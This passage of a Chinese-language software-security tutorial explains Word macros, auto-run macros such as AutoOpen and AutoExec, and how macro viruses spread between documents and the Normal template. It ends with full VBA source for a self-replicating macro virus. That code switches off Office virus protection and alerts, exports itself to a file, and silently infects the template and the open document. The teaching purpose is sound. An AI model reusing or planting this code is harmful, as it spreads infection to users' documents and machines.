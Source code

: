 如果我们想要查看宏的具体定义，可以查看定义的函数，如下图所示，也可以在工具栏中选择 VB 编辑器查看代码。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4B36TIibKhT8w7kKOfXO3ARG44iaVn7lTyVksALncia65SiaHnJ6MaibHd1Ng/640?wx_fmt=png)

当我们执行某个函数，会有对应的执行效果。比如弹出 “宏病毒测试” 对话框。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4BD8ljfCccAC7jNviaP8YHP6ucfib9uR4lib0LticMsUKORa11CscGsdZ5jA/640?wx_fmt=png)

你可能会疑惑，为什么只弹出了两个对话框呢？  
因为宏包括两种类型——局部宏和全局宏。而退出 Word 程序和进入 Word 程序不是当前文档能定义的。其他三个宏无法起到作用，我们需要将它们复制到 Normal 模块中才能运行。

3. 宏病毒感染
--------

在 Word 和其他微软 Office 系列办公软件中，宏分为两种。

*   内建宏：局部宏，位于文档中，对该文档有效，如文档打开（AutoOpen）、保存、打印、关闭等
    
*   全局宏：位于 office 模板中，为所有文档所共用，如打开 Word 程序（AutoExec）
    

宏病毒的传播路线如下：

*   单机：单个 Office 文档 => Office 文档模板 => 多个 Office 文档（文档到模块感染）
    
*   网络：电子邮件居多
    

首先 Office 文档被感染病毒，当文档打开会执行自动宏，如果宏被执行，它会去检测当前模板是否被感染病毒，如果没有被感染，它会将释放自身的病毒代码。当模板被感染之后，系统中任何一个文档被打开，都会执行模板中的病毒，宏病毒进行传播。

宏病毒的感染方案就是让宏在这两类文件之间互相感染，即数据文档、文档模板。 下面是《软件安全》课程的示例图。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4BmCWGGpYcmjZZpkuIdw1zCTxesq5KLWCrRlPfm5qckZJo55NIhX81Pw/640?wx_fmt=png)

注意，宏代码是可以调试的。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4BhuudPcVl3icnDSU8aICENXqwBgSPkLowzlUkDryn5uS93D3Pj3bEqhg/640?wx_fmt=png)

完整代码如下：

```
Sub test()    'On Error Resume Next    Application.DisplayAlerts = wdAlertsNone    Application.EnableCancelKey = wdCancelDisabled    Application.DisplayStatusBar = False    Options.VirusProtection = False    Options.SaveNormalPrompt = False        '以上是病毒基本的自我保护措施    Set Doc = ActiveDocument.VBProject.VBComponents    '取当前活动文档中工程组件集合    Set Tmp = NormalTemplate.VBProject.VBComponents    '取Word默认模板中工程组件集合    Const ExportSource = "c:\jackie.sys"    Const VirusName = "AIGTMV1"               '该字符串相当于一个病毒感染标志    Application.VBE.ActiveVBProject.VBComponents(VirusName).Export ExportSource                                 '将当前病毒代码导出到c:\jackie.sys文件保存                                     For i = 1 To Tmp.Count        If Tmp(i).Name = VirusName Then TmpInstalled = 1     '检查模板是否已经被感染病毒    Next i        For j = 1 To Doc.Count        If Doc(j).Name = VirusName Then DocInstalled = 1                                     '检查当前活动文档是否已被感染病毒    Next j    If TmpInstalled = 0 Then                 '如果模板没有被感染，对其进行感染        Tmp.Import ExportSource              '从c:\jackie.sys将病毒导入模板        NormalTemplate.Save                  '自动保存模板，以免引起用户怀疑     End If    If DocInstalled = 0 Then                 '如果当前活动文档没有被感染        Doc.Import ExportSource              '从c:\jackie.sys将病毒导入当前活动文档        ActiveDocument.SaveAs ActiveDocument.FullName '自动保存当前活动文档    End If    MsgBox "Word instructional macro by jackie", 0, "Word.APMP"End Sub
```
